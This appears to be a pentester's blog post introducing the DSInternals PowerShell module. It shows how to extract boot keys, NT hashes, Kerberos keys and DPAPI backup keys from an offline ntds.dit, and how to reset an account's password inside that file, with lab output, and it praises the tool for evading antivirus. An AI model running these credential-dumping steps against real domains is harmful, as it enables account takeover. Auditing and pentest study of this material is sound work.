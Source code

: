 ```yaml
---
layout: single
title:  "DSInternals Overview"
date:   2020-06-27 17:06:23 +0100
categories: windows
excerpt: This is an overview of how to install, configure and use dsinternals for managing or attacking an AD environment
---
```


![logo](/images\dsinternals\DSInternals.png)

## Introduction
Today I will go through the install process and use of the [Directory Services Internals PowerShell Module and Framework](https://github.com/MichaelGrafnetter/DSInternals). This powershell tool can be quite useful for extracting password hashes from offline ntds.dit databases, as a good allternative to mimikatz, and for dumping credentials on a live system using DRS. DSInternals can also be used for legitmate puerposes such as, Password Auditing and Domain Controller Recovery. Firstly, we will go over the install process and then I will show you some of the many uses this framework has.

## Installation
The framework and powershell module can either be installed using [PowerShell Gallery](https://www.powershellgallery.com) or from [Source](https://github.com/MichaelGrafnetter/DSInternals/releases)

### Powershell Gallery
To install using PowerShell Gallery simpley open a PowerShell Terminal as Admin and enter the following command

{% highlight powershell linenos %}
Install-Module DSInternals -Force
{% endhighlight %}

Output:
{% highlight powershell %}
PS C:\Users\Administrator> Install-Module DSInternals -Force

NuGet provider is required to continue
PowerShellGet requires NuGet provider version '2.8.5.201' or newer to interact with NuGet-based repositories. The NuGet
provider must be available in 'C:\Program Files\PackageManagement\ProviderAssemblies' Do you want PowerShellGet to install and import the NuGet provider now?
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): Y

PS C:\Users\Administrator>
{% endhighlight %}

### Manual Install
To Manually install, first downloaded the latest release from the [GitHub Page](https://github.com/MichaelGrafnetter/DSInternals), Then open an admin powershell session in the same directory. Next run `Unblock-File download.zip` to unblock the file and it's contents. Finally, extract the contects to either, `C:\Windows\system32\WindowsPowerShell\v1.0\Modules\DSInternals` or `C:\Users\username\Documents\WindowsPowerShell\Modules\DSInternals`.

## Useful Commands for Managing and Attacking an AD Environement
Now that we have installed DSInternals we can connect to an AD domain and start running commands. These commands can be run either in a remote PowerShell Session or from a computer enroled in the domain and, logged in with a user who has Domain Admin rights.

### Commands for Online AD Environments
These are commands that a sysadmin would most likely use as they require you to be logged in with an account that has admin privelleges. These commands are most useful  for auditing domain security, such as comparing password hashes, calculating Kerberos Keys and grabbing users from Azure AD. 

Below will be a list of useful commands with a sample output and a short description of what they do:

{% highlight powershell %}
Get-SamPasswordPolicy
{% endhighlight %}
Shows the domain's password policy
{% highlight powershell linenos%}
PS C:\Users\Administrator> Get-SamPasswordPolicy

Domain: lab.local

MinPasswordLength           : 7
ComplexityEnabled           : True
ReversibleEncryptionEnabled : False
MaxPasswordAge              : 42.00:00:00
MinPasswordAge              : 1.00:00:00
PasswordHistoryCount        : 24

PS C:\Users\Administrator>
{% endhighlight %}



{% highlight powershell %}
Get-LsaPolicyInformation
{% endhighlight %}
Retrieves AD-related information from the Local Security Authority Policy of the local computer
{% highlight powershell linenos%}
PS C:\Users\Administrator> Get-LsaPolicyInformation

Domain/Workgroup Name : LAB
Forest DNS Name       : lab.local
Domain DNS Name       : lab.local
Domain GUID           : db72abe4-9c89-47f3-8e0d-51366e5cbf72
Domain SID            : S-1-5-21-1086465519-1901182224-3361014284
Account Domain Name   : LAB
Account Domain SID    : S-1-5-21-1086465519-1901182224-3361014284
Local Domain Name     : LAB-DC-1
Local Domain SID      : S-1-5-21-2644844979-1164627081-3792583456
Machine Account SID   : S-1-5-21-1086465519-1901182224-3361014284-1000

PS C:\Users\Administrator>
{% endhighlight %}


### Commands for Offline AD Environments
These are commands a sysadmin or attacker could use on an offline domain controller (or on an offline copy of the ntds.dit and SYSTEM), as when a DC is online the dtds.dit database is offline. For most of these commands you will need a copy of the ntds.dit and SYSTEM files, [here](https://www.cyberis.co.uk/2014/02/obtaining-ntdsdit-using-in-built.html) is a good article explaining how to do that.

{% highlight powershell %}
Get-BootKey [-SystemHiveFilePath] <String> [<CommonParameters>]
{% endhighlight %}
Grabs the system boot key from a copy of the SYSTEM registry file
{% highlight powershell linenos%}
PS C:\pentest\registry> Get-BootKey -SystemHiveFilePath .\SYSTEM
fd52aec47e2443decd3b37caf6d822ff
PS C:\pentest\registry>
{% endhighlight %}



{% highlight powershell %}
Get-ADDBAccount [-All] [-BootKey <Byte[]>] -DatabasePath <String> 
{% endhighlight %}
Reads account information from an offline ntds database
{% highlight powershell linenos%}
PS C:\pentest\registry> Get-ADDBAccount -BootKey fd52aec47e2443decd3b37caf6d822ff -SamAccountName svc-backup -DatabasePath '..\Active Directory\ntds.dit'

DistinguishedName: CN=svc-backup,CN=Users,DC=lab,DC=local
Sid: S-1-5-21-1086465519-1901182224-3361014284-1103
Guid: ad3fcb7a-397d-48be-9c9c-3c85c1a0f056
SamAccountName: svc-backup
SamAccountType: User
UserPrincipalName: svc-backup@lab.local
PrimaryGroupId: 513
Enabled: True
UserAccountControl: NormalAccount, PasswordNeverExpires
AdminCount: True
Deleted: False
LastLogonDate:
DisplayName: svc-backup
GivenName: svc-backup
SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, SystemAclAutoInherited,
DiscretionaryAclProtected, SelfRelative
Owner: S-1-5-21-1086465519-1901182224-3361014284-512
Secrets
  NTHash: 7facdc498ed1680c4fd1448319a8c04f
  LMHash:
  NTHashHistory:
    Hash 01: 7facdc498ed1680c4fd1448319a8c04f
  LMHashHistory:
    Hash 01: 8e42bf8e046b8516e5d9e966c63f829e
  SupplementalCredentials:
    ClearText:
    NTLMStrongHash: efe59e65131eb1ef7213b17b9350788e
    Kerberos:
      Credentials:
        DES_CBC_MD5
          Key: f268581fd61c2a98
      OldCredentials:
      Salt: LAB.LOCALsvc-backup
      Flags: 0
    KerberosNew:
      Credentials:
        AES256_CTS_HMAC_SHA1_96
          Key: bc548d1a02a3179c542483a7b6343a9e3916330a98983000f09c8d40e4b3fe79
          Iterations: 4096
        AES128_CTS_HMAC_SHA1_96
          Key: 7291b6d73bc6f0f7d0e90565acd47381
          Iterations: 4096
        DES_CBC_MD5
          Key: f268581fd61c2a98
          Iterations: 4096
      Salt: LAB.LOCALsvc-backup
      DefaultIterationCount: 4096
      Flags: 0
    WDigest:
      Hash 01: 80095ef69cabb3ef8be2b4b06341feb5
      Hash 02: 3d8b8417a6c1ee5156021db75d016603
      Hash 03: ae4aaef5406f2e7a3257c8b65bd00c09
      Hash 04: 80095ef69cabb3ef8be2b4b06341feb5
      Hash 05: 3d8b8417a6c1ee5156021db75d016603
      Hash 06: 0841120a5e8e52747bc5bc3272edfdc3
      Hash 07: 80095ef69cabb3ef8be2b4b06341feb5
      Hash 08: a4221a314685ffb3854da8705340a9f5
      Hash 09: a4221a314685ffb3854da8705340a9f5
      Hash 10: 381732502709fc4234e25ac1ffc51ca4
      Hash 11: 781d4ecc2faf2a4083d815d48c742532
      Hash 12: a4221a314685ffb3854da8705340a9f5
      Hash 13: a56787883595e73758f91f29f43d28df
      Hash 14: 781d4ecc2faf2a4083d815d48c742532
      Hash 15: 657afb076157ffc8e0127c3ddf55fe26
      Hash 16: 657afb076157ffc8e0127c3ddf55fe26
      Hash 17: 3709a19dea664e52e0eb505f41809795
      Hash 18: 273feeab771458f602d99d41ebe4ec20
      Hash 19: 7199f9962b26ba6a95fb1c3a337b8966
      Hash 20: 776d4668f3f33993ce2fb4d68b5a8645
      Hash 21: d175c3c4cee0081366528f84aa3ef8b4
      Hash 22: d175c3c4cee0081366528f84aa3ef8b4
      Hash 23: 3af98e76714f060f532ffab8ae14bcaa
      Hash 24: c87b75995569b28d816d5e92f5e345d1
      Hash 25: c87b75995569b28d816d5e92f5e345d1
      Hash 26: 8833426d8c3c9ce0b969d6b3a9536bc6
      Hash 27: 16346819f1ab7eb3598668db37455da2
      Hash 28: c20d361da1eab95cf8d5461b9131c3ed
      Hash 29: 001ebebc41bf16007505cac450f80551

PS C:\pentest\registry>
{% endhighlight %}



{% highlight powershell %}
Set-ADDBAccountPassword -NewPassword <SecureString> -BootKey <Byte[]> [-SkipMetaUpdate] [-SamAccountName] <String> -DatabasePath <String>
{% endhighlight %}
Sets the password for a user, computer, or service account stored in a ntds.dit file.
{% highlight powershell linenos%}
PS C:\pentest\registry> Set-ADDBAccountPassword -NewPassword Password123! -SamAccountName svc-backup -BootKey fd52aec47e2443decd3b37caf6d822ff -DatabasePath '..\Active Directory\ntds.dit'

PS C:\pentest\registry>
{% endhighlight %}



{% highlight powershell %}
Get-ADDBBackupKey -BootKey <Byte[]> -DatabasePath <String>
{% endhighlight %}
Reads the DPAPI backup keys from a ntds.dit file.
{% highlight powershell linenos%}

FilePath          : ntds_legacy_b116cbfa-b881-43e6-ba85-ef3efa64ba22.key
KiwiCommand       : 
Type              : LegacyKey
DistinguishedName : CN=BCKUPKEY_b116cbfa-b881-43e6-ba85-ef3efa64ba22 
                    Secret,CN=System,DC=contoso,DC=com
KeyId             : b116cbfa-b881-43e6-ba85-ef3efa64ba22
Data              : {1, 0, 0, 0...}

FilePath          : 
KiwiCommand       : 
Type              : PreferredLegacyKeyPointer
DistinguishedName : CN=BCKUPKEY_P Secret,CN=System,DC=contoso,DC=com
KeyId             : b116cbfa-b881-43e6-ba85-ef3efa64ba22
Data              : {250, 203, 22, 177...}

FilePath          : ntds_capi_290914ed-b1a8-482e-a89f-7caa217bf3c3.pvk
KiwiCommand       : REM Add this parameter to at least the first dpapi::masterkey 
                    command: /pvk:"ntds_capi_290914ed-b1a8-482e-a89f-7caa217bf3c3.pvk"
Type              : RSAKey
DistinguishedName : CN=BCKUPKEY_290914ed-b1a8-482e-a89f-7caa217bf3c3 
                    Secret,CN=System,DC=contoso,DC=com
KeyId             : 290914ed-b1a8-482e-a89f-7caa217bf3c3
Data              : {2, 0, 0, 0...}
{% endhighlight %}


## Conclusions

I know this article was not to indepth, but I just wanted to give a basic overview of what it can do for pentesters. I really like DSInternals, especially because it allows the  extraction of hashes from ad databases without having to use a tool like mimikatz, which usually triggers or is blocked by antivirus, I also like how the framework can be used in any .NET application. Though it is not as useful for AD enumeration as `PowerUp.ps1` or `PowerView.ps1` it is an absolute life saver when it comes to password and hash extraction. 


